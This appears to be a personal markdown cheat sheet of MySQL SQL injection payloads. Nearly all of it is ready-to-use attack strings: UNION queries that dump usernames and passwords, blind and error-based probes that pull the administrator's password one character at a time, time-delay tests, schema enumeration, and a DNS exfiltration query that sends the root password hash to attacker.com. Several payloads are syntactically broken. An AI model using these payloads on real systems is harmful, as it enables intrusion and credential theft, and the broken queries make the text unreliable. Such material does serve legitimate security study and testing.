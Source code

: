 
## My SQLi

### Retreaving Database version

```mysql
SELECT @@version
```

**UNION Statement Context**
```
' UNION SELECT NULL, @@version -- -
```

> **Note:** In UNION Statement we have to match the number of columns of first select statement so that's why we use one NULL in the payload.

### String Concatenation

```
SELECT CONCAT(username, password) FROM Users
```

**UNION Statement Context**

```
' UNION SELECT NULL,CONCAT(username, ':', password) FROM Users-- -
```

### Substring

```
SELECT SUBSTRING(password, 2,1) FROM users where username = 'administrator'
```

> **Note:** In the above query we only extract second character of Administrator users password with the length of one that's mean only one character at a time. SUBSTRING Function has a syntax like this `SUBSTRING(string , start position, total length)`

**In a blind SQLi Context where we have some difference in response**

```
' AND SELECT SUBSTRING((SELECT Password FROM Users Where Username = 'Administrator'),1,1) = FUZZ
```
> **Note:** Suppost we have a blind SQLi in which we have some difference in response like Content Length or any wellcome back message of successfull login etc. Using above query we add a True or False condition using `AND` keyword so when  Password of the Administrator user have a character equal to or FUZZ character then they shows us a welcome back message or different content length otherwise they didn't show us that.
> In FUZZ we have a dictionary that contain all alpha-numeric characters and symbols.

### Conditional Errors

```mysql
SELECT IF(SUBSTRING((SELECT Password From User where Usersname = 'Administrator') ,1,1) = FUZZ , 1/0,True)
```

**In SQLi Context**

```mysql
' AND select if(substring((select password from users where username = "administrator")1,1) = FUZZ, 1/0, True )
```

### Time Delays

```
SELECT SLEEP(10)
```

**Blind SQLi Context**

```
' AND select if(substring((select password from users where username = "administrator")1,1) = FUZZ, SLEEP(5), True )
```

### DNS Lookups

```
# Only Works on windows

LOAD_FILE('\\\\attacker.com\\a')

SELECT ... INTO OUTFILE '\\\\attacker.com\a'
```

**SQLi Context**

```
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root'  
LIMIT 1),'.attacker.com\\foobar'));
```

```
SELECT @@version into outfile '\\\\attacker.com\\temp
```

### Database Contents

**List all the tables**
```
SELECT * FROM information_schema.tables
```

**USING UNION Statement**
```
' UNION SELECT Null, table_name FROM information_schema.tables
```


**List all the columns in a Table**
```
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

**Using UNION Statement**
```
' UNION SELECT NULL, column_name FROM information_schema.columns where table_name = 'TABLE_NAME_HERE'
```